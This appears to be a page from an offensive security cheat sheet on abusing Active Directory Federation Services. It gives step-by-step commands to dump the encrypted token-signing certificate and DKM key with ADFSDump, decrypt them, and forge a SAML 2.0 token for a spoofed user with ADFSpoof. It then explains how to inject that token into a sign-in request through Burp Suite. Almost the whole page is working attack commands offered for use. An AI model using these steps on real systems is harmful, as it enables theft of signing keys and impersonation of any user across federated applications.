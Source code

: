 ```yaml
---
title: "ADFS"
date: 2024-9-14
tags: ["ADFS", "active driectory", "ad", "Windows", "Federation Services", "SAML"]
---
```


### Abuse #1: Generate a SAML 2.0 token for some app

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Dump encrypted PFX and DKM key

<div>

```console
# With ADFS service account
.\ADFSDump.exe
```

</div>

<small>*Ref: [ADFSDump](https://github.com/mandiant/ADFSDump)*</small>

#### 2. Convert to binary blob

<div>

```console
# Copy private key(s)
echo '<PRIVATE_KEY>' | sed 's/-//g' | xxd -r -p > DkmKey.bin
```

```console
# Copy Encrypted Token Signing Key Begin ... Encrypted Token Signing Key End
cat b64_blob | base64 -d > EncryptedPfx.bin
```

</div>

#### 3. Check which private key is correct

<div>

```console
# The correct key will not show error
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin dump
```

</div>

<small>*Ref: [ADFSpoof](https://github.com/mandiant/ADFSpoof)*</small>

#### 4. Generate SAML 2.0 token

<div>

```console
# Copy info from ADFS dump
python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s <SERVER> saml2 --endpoint <SIGN_IN_ENDPOINT> --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid <SPOOF_USER>@<DOMAIN> --rpidentifier <IDENTIFIER> --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue><SPOOF_USER>@<DOMAIN></AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue><SPOOF_USER></AttributeValue></Attribute>' 
```

</div>

#### 5. Modify request in BurpSuite

<div>

```console
+-------------------------------------------------------------+
| 1. Enable Intercept in Proxy Tab                            |
| 2. Sign In with the Web App                                 |
| 3. Click Forward until the POST request with 'SAMLResponse' |
| 4. Replace the payload and Forward                          |
| 5. Disable Intercept and profit                             |
+-------------------------------------------------------------+
```

</div>

{{< /tabcontent >}}

<br>
